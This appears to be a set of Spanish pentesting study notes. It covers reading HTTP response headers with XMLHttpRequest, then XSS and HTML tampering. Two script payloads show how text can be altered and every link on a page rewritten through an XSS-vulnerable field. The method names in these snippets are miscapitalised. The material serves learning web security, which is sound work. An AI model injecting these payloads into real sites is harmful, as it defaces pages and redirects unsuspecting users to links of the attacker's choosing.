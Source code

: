 Obtener los headers de la respuesta:

```javascript
const xhttp = new XMLHttpRequest();
xhttp.onload = function() {
  document.getElementById("demo").innerHTML =
  this.getAllResponseHeaders();
}
xhttp.open("GET", "ajax_info.txt");
xhttp.send();

//solo un header en especifico

const xhttp = new XMLHttpRequest();
xhttp.onload = function() {
  document.getElementById("demo").innerHTML =
  this.getResponseHeader("Content-type");
}
xhttp.open("GET", "ajax_info.txt");
xhttp.send();

```

## CROSS SITE SCRIPTING (XSS)

Es bueno conocer los diferentes tipos de XSS para poder entender mejor esto:

[[Cross Site Scripting (XSS)]]

## MODIFICACION DE HTML (DATA TAMPERING)

URL encodes/decoder online: [http://meyerweb.com/eric/tools/dencoder/](http://meyerweb.com/eric/tools/dencoder/)

para pasarlo por url.

### podemos modificar contenido HTML usando una campo vulnerable a XSS

```html
<script>
	
	document.GetElementById('name').innerHTML="Modified Text";
	document.GetElementByTagName('h2')[0].innerHTML="Modified Text";
	
</script>
```

### modificacion de todos los links de una pagina

```html
<script>
	
	let links = document.GetElementsByTagName("a");
	for (i=0;i<links.length;i++)
	{
		links[i].href="http://PentesterAcademy/topics";
	}
	
</script>
```

